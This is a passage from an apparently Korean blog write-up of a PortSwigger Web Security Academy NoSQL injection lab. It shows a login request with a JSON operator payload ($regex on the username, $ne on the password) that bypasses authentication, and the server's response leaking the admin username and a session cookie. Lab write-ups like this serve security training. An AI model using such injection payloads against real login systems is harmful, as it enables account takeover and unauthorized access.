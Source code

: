  ```http
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":{"$regex":"admin"},"password":{"$ne":""}}
 ```

그러자 다음과 같은 응답이 돌아왔다! 관리자의 username은 admingnigdu88였다. 

```http
HTTP/2 302 Found
Location: /my-account?id=admingnigdu88
Set-Cookie: session=j3I5Ezap9XUoblP84k9DayKrQgGF4ctY; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

새로운 세션값으로 서버에 접근해본다. 그러면 관리자 계정으로 로그인되고 문제 풀이에 성공했다는 메세지가 출력된다! 

![문제 풀이 성공](/images/burp-academy-nosqli-2-success.png)